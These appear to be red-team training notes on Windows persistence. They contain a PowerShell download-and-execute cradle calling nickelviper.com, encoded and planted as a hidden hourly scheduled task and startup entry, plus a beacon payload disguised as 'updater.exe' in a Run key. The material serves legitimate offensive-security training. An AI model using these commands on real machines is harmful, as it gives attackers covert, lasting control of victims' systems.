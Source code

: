 # Persistence 



Persistence is a method of regaining or maintaining access to a compromised machine, without having to exploit the initial compromise steps all over again. Workstations are volatile since users tend to logout or reboot them frequently.

If you've gained initial access through a phishing campaign, it's unlikely you'll be able to do so again if your current Beacon is lost, which could be the end of the engagement. If you're on an assume-breach (or indeed in this lab) and have access to an internal host, the loss of complete access to the environment is less of a concern. However, you may still need to drop one or more persistence mechanisms on hosts you control if your simulated threat would also do so.

Installing persistence usually involves making some configuration change or dropping a payload to disk, which is why they can carry a high risk of detection, but they are also very useful (and practically essential) during long-term engagements. You must strike a delicate balance of keeping the operation going and getting caught.

Persistence can be executed within userland (e.g. as the current user) or in an elevated context such as SYSTEM. Elevated persistence requires that we become local admin on the host first, which is covered in the Privilege Escalation section coming up next.

Common userland persistence methods include:

    HKCU / HKLM Registry Autoruns
    Scheduled Tasks
    Startup Folder

 

Cobalt Strike doesn't include any built-in commands specifically for persistence. SharPersist is a Windows persistence toolkit written by FireEye. It's written in C#, so can be executed via execute-assembly.


# Windows Task Scheduler 

The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

Let's create a scheduled task that will execute a PowerShell payload once every hour.  To save ourselves from having to deal with lots of quotations in the IEX cradle, we can encode it to base64 and execute it using the -EncodedCommand parameter in PowerShell (often appreciated to -enc).  This is a little complicated to do, because it must use Unicode encoding (rather than UTF8 or ASCII).

### PowerShell:

PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA


### Linux:

ubuntu@DESKTOP-3BSK7NO ~> set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
ubuntu@DESKTOP-3BSK7NO ~> echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add


# Registry Auto Run 
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
